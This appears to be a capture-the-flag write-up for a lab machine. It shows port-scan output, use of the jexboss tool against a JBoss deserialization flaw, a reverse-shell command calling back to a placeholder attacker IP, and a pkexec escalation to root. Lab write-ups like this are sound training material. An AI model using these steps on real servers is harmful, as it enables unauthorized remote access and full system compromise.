






# Port Scanning
```bash
❯ rustscan -a 10.82.144.22 -- -A

Open 10.82.144.22:22
Open 10.82.144.22:111
Open 10.82.144.22:80
Open 10.82.144.22:1098
Open 10.82.144.22:1090
Open 10.82.144.22:1099
Open 10.82.144.22:3306
Open 10.82.144.22:3873
Open 10.82.144.22:4444
Open 10.82.144.22:4446
Open 10.82.144.22:4445
Open 10.82.144.22:4457
Open 10.82.144.22:4712
Open 10.82.144.22:4713
Open 10.82.144.22:8009
Open 10.82.144.22:8083
Open 10.82.144.22:8080
Open 10.82.144.22:35774
Open 10.82.144.22:41320
Open 10.82.144.22:47598

PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 62 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOLOk6ktnJtucoDmXmBrc4H4gGe5Cybdy3jh1VZg+CYg+sZbYXzGi2/JO45cRqYd2NFIq7l+oTsjFgh76qAayKMU4D3+gKaC+U2VL93nCU1SywzvZLLc8MEy7mTHflOm4kZCmycgtJO4tfUhuH64yEP+lv3ENFeH5jgyJcGABF/p44MMSwnvpaLMfOuEGuEhKMPA4c+XAiS3J+sErUbpx6ragGGJAKTpww+arDy11slMsyJgjN6GUjlR0y+P0E4/NsrNHe86GKXJ1G4bfKEdKOPeTZ+wZMNFDCVNLPHLWUBIgWNQHIgRcXiBvPAvIrrt8gV/+td9C74Bsj0VqEEJnP
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUtPCeXKNaq6WZlT3PxbZbQmka1bb5I+yBRhUb5tzmf2GEmdDOk6R7MSUlEtzGzQ4GjAWFZG3q7ZcBahg8ur8A=
|   256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJI3bQUWzwhk0iJYl+gGn09NgvRLtN4vJ4DG6SrE7/Hb
80/tcp    open  http         syn-ack ttl 62 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
|_http-title: My first blog
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open  rpcbind      syn-ack ttl 62 2-4 (RPC #100000)
1090/tcp  open  java-rmi     syn-ack ttl 62 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack ttl 62 Java RMI
1099/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     ##ur
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        syn-ack ttl 62 MariaDB 10.3.23 or earlier (unauthorized)
3873/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization
4444/tcp  open  java-rmi     syn-ack ttl 62 Java RMI
4445/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization
4446/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization
4457/tcp  open  tandem-print syn-ack ttl 62 Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack ttl 62 Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack ttl 62
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    8bbe
8009/tcp  open  ajp13        syn-ack ttl 62 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack ttl 62 Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome to JBoss&trade;
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
8083/tcp  open  http         syn-ack ttl 62 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
35774/tcp open  unknown      syn-ack ttl 62
41320/tcp open  java-rmi     syn-ack ttl 62 Java RMI
47598/tcp open  unknown      syn-ack ttl 62
```
First I visited on port 80. <br/>
 <br/>
Clicked the buttons but found nothing suspicious. So I went to port 8080. And found <br/>
 <br/>
It is running jboss Web/2.1.1.GA. Googling about this it has java deserialization vulnerability. After searching more I found this: https://github.com/joaomatosf/jexboss. A java deserialization vulnerability and exploitation tool. I downloaded it and install necessary requirements. Then run it
```bash
python jexboss.py -host http://target_host:8080
```
 <br/>
After getting an unstable shell. I need a stable reverse shell. So I ran the following command for reverse shell on the unstable shell. <br/>
```bash
jexremote=<attacker_ip>:4545
```
And with `nc` I received the stable shell. <br/>
 <br/>
# Privilege Escalation 
I ran `Linpeas.sh`and found that it has pkexec vulnerability.  <br/>
 <br/>
Abusing this I got ROOT shell. <br/>
 <br/>